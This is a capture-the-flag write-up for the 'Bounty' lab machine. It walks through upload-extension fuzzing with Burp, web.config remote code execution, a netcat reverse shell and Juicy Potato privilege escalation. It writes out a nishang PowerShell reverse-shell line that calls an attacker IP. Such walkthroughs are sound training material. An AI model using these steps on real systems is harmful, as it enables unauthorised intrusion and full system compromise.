 # Bounty

### Machine Info
![](screenshots/bounty.png)

#### Nmap
![](screenshots/nmap.png)


##### HTTP (Port 80)

Index Page:
![](screenshots/index.png)

###### Gobuster
![](screenshots/gobuster.png)

From the page `/transfer.aspx`, it seems like we can upload and I tried to upload file with extension `aspx,asp,php` but failed. Let's just check file extension by using `burpsuite`.

###### BurpSuite

First just create file extension list:
![](screenshots/file_extension.png)

Run `Burp` and send request to `intruder` and set payload:

![](screenshots/intruder.png)

Clear all markers and only add for extension.
![](screenshots/payload1.png)

![](screenshots/payload2.png)

Result:
![](screenshots/burp_result.png)

As we can see from the result, only `jpeg` and `config` files have different length because it gets message `File uploaded successfully` while others get `Invalid File. Please try again`.


I searched PoC about remote code execution with `.config` extension and found good one: []()https://gist.github.com/gazcbm/ea7206fbbad83f62080e0bbbeda77d9c

I uploaded `nc.exe` to the `C:\Windows\Temp\` directory and just executed `nc.exe` to get reverse shell:

![](screenshots/upload_success.png)

![](screenshots/upload_exec.png)

`nc` listener:
![](screenshots/user_shell.png)



#### Privilege Escalation
![](screenshots/whoami_priv.png)

The `SeImpersonatePrivilge` is enabled which means we can use `juicy potato`:
[]()https://github.com/ohpe/juicy-potato
```
Juicy Potato is a weaponised version of RottenPotatoNG. If user have SeImpersonate or SeAssignPrimaryToken privilege (most services account have), this can be abused and user can impersonate token and will have system privilege.
```


`nishang`s powershell reverse shell:
```
# Add this line at the end of the script
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.37 -Port 5555
```
Create and upload bat file which will be executed by Juicy Potato:
![](screenshots/psbat.png)

Upload and Execute Juicy Potato:
![](screenshots/juicypotato.png)

`nc` listener on attacking side:
![](screenshots/root_shell.png)

And you can get `root.txt` :)

